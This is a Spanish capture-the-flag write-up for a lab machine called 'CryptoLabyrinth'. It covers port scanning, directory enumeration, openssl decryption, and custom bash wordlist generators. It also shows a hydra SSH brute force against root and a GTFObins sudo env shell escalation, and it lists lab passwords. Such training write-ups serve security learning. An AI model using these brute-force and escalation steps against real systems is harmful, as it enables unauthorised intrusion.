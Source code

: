 ```yaml
---
description: >-
  ✍️ Autor: beafn28🔍 Dificultad: Fácil📅 Fecha de creación: 25/10/2024 🖥️The
  Hacker Labs
---
```


# CryptoLabyrinth

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.82
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/image (17) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.82
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 192.168.1.82
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos mencione una pista y descubrimos la página por defecto de **Apache**.

<figure><img src="../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando el código fuente nos encontramos una cadena que podría ser una contraseña.

<figure><img src="../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -u http://192.168.1.82/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

<figure><img src="../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Descubrimos un directorio oculto llamado `/hidden` por lo que indagamos qué contenido habrá.

Observamos varios archivos por lo que nos los descargamos e indagaremos más a fondo pero tiene pinta que hay trata de criptografía.

```
wget -r -np -nH --cut-dirs=2 --reject "index.html*" http://192.168.1.82/hidden/
```

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

<pre class="language-bash"><code class="lang-bash"><strong>openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -iter 10000
</strong></code></pre>

```
openssl enc -aes-256-cbc -d -in ~/Desktop/alice_aes.enc -out ~/Desktop/alice_password.txt -k 'supercomplexkey!' -pbkdf2
```

Descifra el archivo `alice_aes.enc` utilizando AES-256-CBC con la clave `supercomplexkey!`,y guarda el resultado en el archivo `alice_password.txt`. La opción de iteración asegura que el proceso de derivación de la clave sea más seguro al hacerlo más difícil de atacar por fuerza bruta.

> Nota: la clave se encuentra en el archivo numeros\_suerte.txt

Hemos descubierto de **alice** que es **superSecurePassword!**

Vamos a descubrir las credenciales del usuario **bob**, al parecer hay varios hashes por lo que los vamos a crackear.

Nos aseguramos de tener todos los hashes de las contraseñas de Bob en un solo archivo. Combinamos los hashes en un único archivo de texto usando el siguiente comando:

```bash
cat bob_password*.hash > bob_passwords.hash
```

Desciframos estos hashes y se nos proporciona 4 contraseñas y al probar vemos que no son. Hay un hash que falta por lo que creamos un diccionario con la cadena vista en el código fuente.

```bash
#!/bin/bash

# Verificar si se proporcionó una palabra
if [ "$#" -ne 1 ]; then
    echo "Uso: $0 <palabra>"
    exit 1
fi

# Palabra proporcionada por el usuario
palabra="$1"

# Eliminar los últimos dos asteriscos (si existen)
palabra_sin_asteriscos="${palabra//\*/}"

# Definir los caracteres alfanuméricos (mayúsculas, minúsculas y dígitos)
caracteres="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"

# Crear un archivo de salida
archivo_salida="combinaciones.txt"
> "$archivo_salida"  # Vaciar el archivo si ya existe

# Generar combinaciones con el comando seq y expandiendo directamente los caracteres
for i in $(seq 0 $((${#caracteres}-1))); do
    for j in $(seq 0 $((${#caracteres}-1))); do
        # Concatenar la palabra sin asteriscos con los caracteres generados
        echo "${palabra_sin_asteriscos}${caracteres:$i:1}${caracteres:$j:1}" >> "$archivo_salida"
    done
done

echo "Combinaciones generadas y guardadas en $archivo_salida"

```

```bash
./rompe.sh "2LWxmDsW0**"
```

<figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos la fuerza bruta al usuario **bob** con las combinaciones generadas anteriormente.

<figure><img src="../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tras haber obtenido las credenciales, iniciamos sesión con **bob**.

```bash
ssh bob@192.168.1.82
```

<figure><img src="../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Escalada de privilegios con `env` (Bob)**

El binario `/usr/bin/env` puede ser utilizado para escalar privilegios cuando tiene permisos de sudo sin contraseña pero con el usuario **alice**. A continuación te muestro cómo podrías hacerlo siguiendo los pasos proporcionados por **GTFObins**.

**Comando de GTFObins (env) para obtener una shell de root:**

```bash
sudo -u alice /usr/bin/env /bin/sh
```

Mejoramos la TTY para trabajar en alice.

<figure><img src="../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisando entre los directorios encontramos en el directorio `/mnt` un archivo secreto.

<figure><img src="../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Creamos un diccionario como anteriormente para descifrar la contraseña correcta.

```bash
#!/bin/bash

# Verificar si se proporcionó una palabra
if [ "$#" -ne 1 ]; then
    echo "Uso: $0 <palabra>"
    exit 1
fi

# Palabra proporcionada por el usuario
palabra="$1"

# Eliminar los asteriscos de la palabra
palabra_sin_asteriscos="${palabra//\*/}"

# Definir los caracteres alfanuméricos (mayúsculas, minúsculas y dígitos)
caracteres="ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789"

# Crear un archivo de salida
archivo_salida="combinaciones.txt"
> "$archivo_salida"  # Vaciar el archivo si ya existe

# Obtener la longitud de la palabra sin asteriscos
longitud=${#palabra_sin_asteriscos}

# Generar todas las combinaciones de 2 caracteres
for ((i = 0; i < ${#caracteres}; i++)); do
    for ((j = 0; j < ${#caracteres}; j++)); do
        # Insertar los caracteres en las posiciones deseadas
        combinacion="${palabra_sin_asteriscos:0:4}${caracteres:i:1}${palabra_sin_asteriscos:4:5}${caracteres:j:1}"
        # Escribir en el archivo
        echo "$combinacion" >> "$archivo_salida"
    done
done

echo "Combinaciones generadas y guardadas en $archivo_salida"

```

<figure><img src="../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos fuerza bruta para conseguir la contraseña completa.

```bash
hydra -l root -P combinaciones.txt ssh://192.168.1.82
```

Obtenemos la contraseña completa que es **`2LWx9DsW0A3`**.

<figure><img src="../.gitbook/assets/Captura de pantalla 2024-10-26 172442.png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que ahora encontraremos la bandera en sus directorios.

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
